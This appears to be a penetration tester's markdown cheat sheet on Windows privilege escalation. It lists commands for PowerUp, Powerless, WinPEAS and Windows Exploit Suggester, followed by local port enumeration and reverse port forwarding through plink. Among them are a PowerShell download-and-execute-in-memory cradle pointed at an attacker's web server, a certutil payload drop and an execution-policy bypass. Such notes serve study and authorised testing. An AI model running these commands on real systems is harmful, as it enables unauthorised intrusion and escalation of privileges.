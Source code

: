 
- PowerUP
  - Powershell required
  - Download `wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1`
  - Run on Windows `powershell.exe -exec bypass -Command "& {Import-Module .\PowerUp.ps1; Invoke-AllChecks}"`
  - Download and execute in memory `powershell iex (New-Object Net.WebClient).DownloadString('http://<yourwebserver>/PowerUp.ps1');Invoke-AllChecks`
  
- Powerless
  - For legacy systems
  - Powershell not available
  - Download `wget https://raw.githubusercontent.com/gladiatx0r/Powerless/blob/master/Powerless.bat`
  - Drop `certutil.exe -urlcache -split -f "http://$IP/Powerless.bat" Powerless.bat`
  - Run on Windows `Powerless.bat`
  
 - WinPEAS
   - Release https://github.com/carlospolop/PEASS-ng/releases/tag/20220807
    
 - Windows Exploit Suggester
   - https://github.com/AonCyberLabs/Windows-Exploit-Suggester
   - Download `wget https://raw.githubusercontent.com/AonCyberLabs/Windows-Exploit-Suggester/master/windows-exploit-suggester.py`
   - Run `systeminfo` on the target Windows machine and save the output in a txt file.
   - `python windows-exploit-suggester.py --update`
   - `python windows-exploit-suggester.py --database 2014-06-06-mssb.xlsx --systeminfo systeminfo.txt`
   - Grep 'Elevation' `./windows-exploit-suggester.py –database 2015-09-22-mssb.xlsx –systeminfo systeminfo_1.txt | grep 'Elevation'`
    
- Enumerate Local Services
  - `netstat -ano`
  - Look for LISTENING/LISTEN. Compare that to the scan you did from the outside. Does it contain any ports that are not accessible from the outside? If that is the case, maybe you can make a remote forward to access it.
  
   `plink32.exe -ssh -l <MYUSERNAME> -pw <MYPASSWORD> -R <MYIP>:<MYPORT>:127.0.0.1:8090 <MYIP>`
   
    ```
      # Port forward using plink
      plink.exe -l root -pw mysecretpassword 192.168.0.101 -R 8080:127.0.0.1:8080
    ```
    
    [plink.exe binaries](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html)

